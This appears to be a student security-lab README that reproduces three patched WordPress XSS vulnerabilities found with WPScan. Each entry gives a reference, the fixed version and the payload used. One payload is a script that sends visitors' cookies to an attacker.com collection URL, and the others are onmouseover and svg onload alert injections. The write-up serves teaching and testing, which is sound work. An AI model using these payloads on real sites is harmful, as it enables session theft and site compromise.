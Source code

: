 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) <br>
    Reference: https://www.exploit-db.com/exploits/36844/ <br>
[i] Fixed in: 4.2.1 <br>
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors. <br>
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x <br>
<img src="https://i.imgur.com/kKKLoZh.gif" width="800"> <br>


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS) <br>
    Reference: https://wpvulndb.com/vulnerabilities/8131 <br>
[i] Fixed in: 4.2.4 <br>
Top 10 2013-A3-Cross-Site Scripting (XSS) <br>
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS) <br>
If the attacker could trick the admin to post this as a comment: <br>
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>"; <br>
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com <br>
<img src="https://i.imgur.com/3mrNRXU.gif" width="800"> <br>


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds <br>
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html <br>
This issue was patched in WordPress 4.7.3. <br>
If the attacker could trick the admin to post this as a comment: <br>
<embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'></embed> <br>
we could get a stored XSS exploit. <br>
<img src="https://i.imgur.com/msRn9YG.gif" width="800"> <br>

